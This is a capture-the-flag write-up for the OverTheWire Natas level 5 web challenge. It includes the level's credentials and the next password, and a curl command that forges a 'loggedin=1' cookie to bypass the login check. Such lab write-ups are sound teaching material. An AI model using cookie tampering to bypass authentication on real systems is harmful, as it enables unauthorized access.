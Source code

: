 # Natas5

*	user: `natas5`
*	pass: `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`
*	url: `http://natas5.natas.labs.overthewire.org`
*	flag: `aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

## Procedure

1.	When accessing the page, the following message is received

		Access disallowed. You are not logged in

	It's common to use cookies to check if a user is logged in. So let's try
	with a sniffer (e.g. Wireshark) if specific cookie is required.

2.	Bingo! When page is accessed, cookie `loggedin=0` is sent. Let's try to
	change it in 1

		$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -b loggedin=1 http://natas5.natas.labs.overthewire.org/
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
		<body>
		<h1>natas5</h1>
		<div id="content">
		Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
		</body>
		</html>

	Seems to work...
